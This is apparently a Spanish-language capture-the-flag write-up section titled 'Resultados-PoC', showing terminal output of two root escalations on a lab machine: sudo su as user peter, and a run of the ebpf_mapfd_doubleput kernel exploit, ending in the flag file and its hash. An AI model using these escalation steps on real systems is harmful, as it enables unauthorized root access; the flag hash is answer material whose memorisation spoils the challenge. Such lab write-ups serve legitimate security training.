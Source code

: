 ## Resultados-PoC
### Root por permisos inseguros
Se obtuvo root por escalamiento lateral (usuario peter con permisos de root)
```python
peter@red:/home$ sudo su
➜  /home whoami
root
➜  /home 
[...]
➜  ~ ls
fix-wordpress.sh  flag.txt  issue  python.sh  wordpress.sql
➜  ~ cat flag.txt 
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

### Root por vulnerabilidad de kernel
Se obtuvo root por vulnerabilidad de kernel con los ejecutables que se prepararon:
```js
SHayslett@red:~/39772/ebpf_mapfd_doubleput_exploit$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
```
Se esperó por 60 segundos:
```python
suid file detected, launching rootshell...
we have root privs now...
root@red:~/39772/ebpf_mapfd_doubleput_exploit# cd ~
root@red:~# ls
39772  __MACOSX  doubleput.zip
root@red:~# cd /root
root@red:/root# ls
fix-wordpress.sh  flag.txt  issue  python.sh  wordpress.sql
root@red:/root# cat flag.txt 
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```
